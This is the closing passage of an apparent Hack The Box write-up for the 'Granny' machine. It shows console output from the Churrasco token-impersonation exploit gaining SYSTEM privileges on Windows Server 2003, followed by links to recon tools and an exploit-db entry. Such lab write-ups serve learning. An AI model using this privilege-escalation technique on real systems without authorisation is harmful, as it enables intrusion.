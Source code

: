 ```
/churrasco/-->Found Thread: 688
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 696
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x734
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found NETWORK SERVICE Token
/churrasco/-->Found LOCAL SERVICE Token
/churrasco/-->Found SYSTEM token 0x72c
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\Temp>whoami
whoami
nt authority\system
```

And thats a wrap on granny. I spent a majority of my time on this box setting up my build environment, but at least I won't have to go through that pain again... right?

[htb-list]: https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=1839402159
[autorecon]: https://github.com/Tib3rius/AutoRecon
[ippsec]: https://www.youtube.com/watch?v=ZfPVGJGkORQ&t=1s
[wes]: https://github.com/bitsadmin/wesng
[exploit]: https://www.exploit-db.com/exploits/6705